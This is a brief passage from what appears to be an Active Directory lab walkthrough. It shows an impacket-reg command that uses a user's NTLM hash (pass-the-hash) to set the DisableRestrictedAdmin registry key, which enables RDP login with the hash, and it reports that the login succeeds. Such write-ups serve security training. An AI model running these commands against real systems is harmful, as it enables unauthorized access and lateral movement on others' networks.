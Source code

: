 ![screenshot](pics/reg_check.png)

- The value doesn’t exist we create it :
```
impacket-reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
```
![screenshot](pics/reg_create.png)

- Now try again rdp connection and it works \o/
![screenshot](pics/rdp_login.png)
